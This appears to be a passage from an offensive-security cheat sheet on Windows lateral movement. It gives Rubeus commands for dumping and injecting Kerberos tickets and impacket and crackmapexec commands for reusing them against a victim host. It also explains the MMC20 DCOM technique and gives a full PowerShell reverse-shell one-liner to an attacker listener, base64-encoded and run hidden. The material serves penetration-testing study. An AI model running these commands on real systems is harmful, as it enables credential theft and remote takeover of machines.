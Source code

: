 Acquiring tickets with Rubeus:

```powershell
# from elevated cmd prompt
# list all tickets in memory
.\Rubeus.exe triage

# dump desired tickets (base64 encoded .kirbi printed to stdout)
.\Rubeus.exe dump /nowrap [/luid:LOGINID] [/user:USER] [/service:krbtgt]

# load the ticket into session (copy and paste base64 kirbi data from previous)
.\Rubeus.exe ptt /ticket:BASE64_KIRBI
```

Using saved tickets from Kali:

```sh
# if you have base64 ticket from Rubeus, convert to .kirbi first
echo -n "BASE64_KIRBI" | base64 -d > USERNAME.kirbi

# convert .kirbi to .ccache
impacket-ticketConverter USERNAME.kirbi USERNAME.ccache

# export path to .ccache to use with other tools
export KRB5CCNAME=$(pwd)/USERNAME.ccache

# use with crackmapexec, impacket-psexec/wmiexec/smbexec
# make sure you set /etc/hosts to reslove FQDN for crackmapexec
crackmapexec smb --use-kcache VICTIM_FQDN
impacket-psexec -k -no-pass VICTIM_FQDN
```


### 5.3.5 DCOM

Detailed first writeup by [cybereason](https://www.cybereason.com/blog/dcom-lateral-movement-techniques)

Microsoft's *Component Object Model (COM)* allows software interaction between processes, and _Distributed Component Object Model (DCOM)_ extends COM to allow process interaction on remote hosts.

Both COM and DCOM are very old technologies dating back to the very first editions of Windows. Interaction with DCOM is performed over RPC on TCP port 135 and local **administrator access is required** to call the DCOM Service Control Manager, which is essentially an API.

The following DCOM lateral movement technique is based on the *Microsoft Management Console (MMC)* COM application that is employed for scripted automation of Windows systems. The MMC Application Class allows the creation of Application Objects, which expose the `ExecuteShellCommand` method under the `Document.ActiveView` property. This method allows execution of any shell command as long as the authenticated user is authorized, which is the default for local administrators.

Leveraging DCOM to get a reverse shell on a remote machine:

```powershell
# variable declaration
$victim = 'VICTIM' # hostname or IP
$lhost = 'LISTEN_IP'
$lport = 443
$revshell = '$client=New-Object System.Net.Sockets.TCPClient("'+$lhost+'",'+$lport+');$stream = $client.GetStream();[byte[]]$bytes=0..65535|%{0};while(($i=$stream.Read($bytes,0,$bytes.Length)) -ne 0){;$data=(New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0,$i);$sendback=(iex $data 2>&1|Out-String );$sendback2=$sendback+"PS "+(pwd).Path+">";$sendbyte=([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()';
$b64cmd = [Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($revshell));
$command = 'powershell -ep bypass -nop -w hidden -enc '+$b64cmd;
# create the DCOM MMC object for the remote machine
$dcom = [System.Activator]::CreateInstance([type]::GetTypeFromProgID("MMC20.Application.1",$victim))
# execute shell command through DCOM object
```